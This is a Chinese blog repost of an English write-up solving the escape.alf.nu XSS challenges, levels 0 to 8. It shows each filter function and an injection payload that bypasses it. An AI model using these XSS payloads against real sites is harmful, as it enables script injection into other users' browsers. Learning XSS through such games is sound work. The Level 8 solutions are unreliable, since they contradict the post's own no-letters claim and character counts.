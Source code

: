 
<hr/>

##前言

这是国外的XSS游戏[escape.alf.nu](http://escape.alf.nu),国内也有类似的比如	[prompt.ml](http://prompt.ml)	

<!--more-->

花了好久好久才找到的Write-ups,因为是一年前的游戏,没找到中文的翻译

于是直接贴在这里了,原链接为[点我](http://www.pwntester.com/blog/2014/01/06/escape-alf-nu-xss-challenges-write-ups-part-148/)

因为原文是分为Part1和Part2,我懒得合并,就按照原样分开贴了

请移步[Part2](http://evilddog.github.io/2014/10/12/escape-alf-nu-write-ups-2/)

版权所有,侵删请联系root.evilddog#gmail.com

##原文

   These are my solutions to    Erling Ellingsen    escape.alf.nu XSS challenges    . I found them very interesting and I learnt a lot from them (especially from the last ones to be published in Part 2). Im publishing my results since the game has been online for a long time now and there are already some sites with partial results.  

My suggestion, if you havent done it so far, is to go and try to solve them by yourselves…. so come on, dont be lazy, stop reading here and give them a try …

…

…

…

…

Ok so if you have already solve them or need some hits, here are my solutions

###Level 0:

```
	function escape(s) {
		// Warmup.  
		return '<script>console.log("'+s+'");</script>';
	}
```

There is no encoding so the easiest solution is to close “log” call and inject our “alert”

Solution:


```
	");alert(1,"
```

###Level 1:


```
	function escape(s) {
		// Escaping scheme courtesy of Adobe Systems, Inc.  
		s = s.replace(/"/g, '\\"');  
		return '<script>console.log("' + s + '");</script>';
	}
```


Function is escaping double quotes by adding two slashes. Shortest solution is to inject    \“    so the escape function turns it into


```
	\\\"
```


Effectively escaping the backslash but not the double quotes.

Solution:

```
	\");alert(1)//
```


###Level 2:

```
	function escape(s) {  
		s = JSON.stringify(s);  
		return '<script>console.log(' + s + ');</script>';
	}
```


JSON.stringify() will escape double quotes (“) into (\”) but it does not escaps angle brackets (<>), so we can close the current script block and start a brand new one.

Solution:

```
	</script><script>alert(1)//
```

###Level 3:

```
	function escape(s) {  
		var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
		console.log(url);  
		
		var a = document.createElement('a');  
		a.href = url;  
		document.body.appendChild(a);  
		a.click();
	}
```


Again (“) is escaped but since we are within a URL context we can use URL encoding. In this case %22 for (”)

Solution:


```
	%22);alert(1)//
```

###Level 4:

```
	function escape(s) {  
		var text = s.replace(/</g, '&lt;').replace('"', '&quot;');  
		// URLs  
		text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');  
		// [[img123|Description]]  
		text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');  
		return text;
	}
```

The following characters are replaced:

- < → &lt; (all ocurrences)

- " → &quot; (just the first occurrence)

The escape function also use a template like [[src|alt]] that becomes、


```
	<img alt="alt" src="src.gif">
```


We can use this template with any    src    and an    alt    starting with a double quote (“) that will be escaped, a second double quote (”) that won’t be escaped and then a new event handler like    onload=“alert(1)    that will be closed by the double quote inserted by the template.

Solution:

```
	[[a|""onload="alert(1)]]
```


It will be rendered as:
![](http://evilddog.qiniudn.com/escape.alf.nu_1.png)
 
###Level 5:
 
```
	function escape(s) {
   		// Level 4 had a typo, thanks Alok.
		// If your solution for 4 still works here, you can go back and get more points on level 4 now.
		var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
    	// URLs
    	text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
    	// [[img123|Description]]
    	text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
    	return text;
	}
```


Now we cannot rely on the (    “    ) regexp typo but we can still use the template function to generate an image tag executing our    alert(1)    when loaded. We will use any    src    and a URL that will be replaced by the second replace function.

Solution:

```
	[[a|http://onload='alert(1)']]
```



The first replace function wont trigger with this payload

The second replace function will act on the URL getting:


```
	[[a|<a href="http://onload='alert(1)']]">http://onload='alert(1)']]</a>
```


The third replace function will create our      img      tag

It will be rendered as:
![](http://evilddog.qiniudn.com/escape.alf.nu_2.png)

 
###Level 6:

```
	function escape(s) {  
		// Slightly too lazy to make two input fields.  
		// Pass in something like "TextNode#foo"  
		var m = s.split(/#/);  
		// Only slightly contrived at this point.  
		var a = document.createElement('div');  
		a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));  
		return a.innerHTML;
	}
```


The trick is to review all the functions in the DOM that begin with “create” and that dont escape characters. The shortest one is to use “createComment”. For example    Comment#<foo>    will create the following code:

	<!--<foo>-->

From there, its easy to go to:


```
	Comment#><svg onload=alert(1)
```


That will render:

```
	<!--><svg onload=alert(1)-->
```


###Level 7:

```
	function escape(s) {  
		// Pass inn "callback#userdata"  
		var thing = s.split(/#/);  
		if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';  
		var obj = {'userdata': thing[1] };  
		var json = JSON.stringify(obj).replace(/</g, '\\u003c');  
		return "<script>" + thing[0] + "(" + json +")</script>";
	}
```


We will enclose the opening bracket and the json fixed contents with single quotes to transform it into a string and then we will be able to inject our js payload:

Solution:

```
	'#';alert(1)//
```


It will render:


```
	<script>'({"userdata":"';alert(1)//"})</script>
```

###Level 8:

```
	function escape(s) {  
		// Courtesy of Skandiabanken  
		return '<script>console.log("' + s.toUpperCase() + '")</script>';
	}
```


There is no escaping function, only an upper case, so we can close the exisiting"script"tag and create a new tag (case insensitive) with an    onload  script using no alpha characters:

These are some valid solutions:

```
	</script><svg><script>alert(1)//   (52)
	</script><svg onload=alert(1)//   (51)
	</script><svg onload=alert(1)//   (50)
```


I guess people solving the challange with 28 characters or so did something like:


```
	</script><script src="<very short domain>">
```

##[Part2](http://evilddog.github.io/2014/10/12/escape-alf-nu-write-ups-2/)

